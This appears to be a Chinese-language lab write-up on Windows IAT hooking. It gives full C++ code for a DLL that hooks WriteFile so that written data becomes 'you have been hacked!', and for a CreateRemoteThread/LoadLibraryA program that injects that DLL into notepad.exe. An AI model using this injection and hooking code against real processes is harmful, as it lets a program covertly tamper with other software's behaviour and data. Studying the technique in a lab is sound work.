

# IAT hook


此部分实验代码基本参考[这位朋友](https://github.com/tinysec/iathook/blob/master/IATHook.c)

使用了他写的`IATHook.c`

根据这位朋友的使用实例，完成我们的hook WriteFile代码

写一个假的Write_File，在过程便可以修改我们的写入数据，最后调用原函数，改变值即可

```c++
#include <windows.h>
LONG IATHook(
	__in_opt void* pImageBase,
	__in_opt const char* pszImportDllName,
	__in const char* pszRoutineName,
	__in void* pFakeRoutine,
	__out HANDLE* phHook
);

LONG UnIATHook(__in HANDLE hHook);

void* GetIATHookOrign(__in HANDLE hHook);

typedef bool(__stdcall *LPFN_WriteFile)(
	HANDLE       hFile,
	LPCVOID      lpBuffer,
	DWORD        nNumberOfBytesToWrite,
	LPDWORD      lpNumberOfBytesWritten,
	LPOVERLAPPED lpOverlapped
	);

HANDLE g_hHook_WriteFile = NULL;
//////////////////////////////////////////////////////////////////////////

bool __stdcall Fake_WriteFile(
	HANDLE       hFile,
	LPCVOID      lpBuffer,
	DWORD        nNumberOfBytesToWrite,
	LPDWORD      lpNumberOfBytesWritten,
	LPOVERLAPPED lpOverlapped
) {
	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);

	char DataBuffer[] = "you have been hacked!";
	DWORD dwBytesToWrite = (DWORD)strlen(DataBuffer);
	DWORD dwBytesWritten = 0;

	return fnOrigin(hFile, DataBuffer, dwBytesToWrite, &dwBytesWritten, lpOverlapped);
}
```

然后就能将导入表中导入表中Writefile函数hook到我们自己写的函数中

```c++
BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		IATHook(
			GetModuleHandle(NULL),
			"kernel32.dll",
			"WriteFile",
			Fake_WriteFile,
			&g_hHook_WriteFile
		);
		break;
	case DLL_PROCESS_DETACH:
		UnIATHook(g_hHook_WriteFile);
		break;
	}
	return TRUE;
}
```

最后远程创建线程，注入我们的dll即可

```c++
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

int main() {

	char szDllName[] = "C:\\Users\\truman\\source\\repos\\part1\\Debug\\Project1.dll";

	/* Step 1 */
	PROCESSENTRY32 ProcessEntry = {};
	ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
	HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	bool bRet = Process32First(hProcessSnap, &ProcessEntry);
	DWORD dwProcessId = 0;
	while (bRet) {
		if (strcmp("notepad.exe", ProcessEntry.szExeFile) == 0) {
			dwProcessId = ProcessEntry.th32ProcessID;
			break;
		}
		bRet = Process32Next(hProcessSnap, &ProcessEntry);
	}
	if (0 == dwProcessId) {
		return 1;
	}

	/* Step 2 */
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (0 == hProcess) {
		return 1;
	}

	/* Step 3 */
	size_t length = strlen(szDllName) + 1;
	char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
	if (0 == pszDllFile) {
		return 1;
	}

	/* Step 4 */
	if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
		return 1;
	}

	/* Step 5 */
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
	if (0 == pfnThreadRtn) {
		return 1;
	}

	/* Step 6 */
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
	if (0 == hThread) {
		return 1;
	}
	/* Step 7 */
	WaitForSingleObject(hThread, INFINITE);
	VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
	CloseHandle(hThread);
	CloseHandle(hProcess);
	return 0;
}
```

实验结果如下

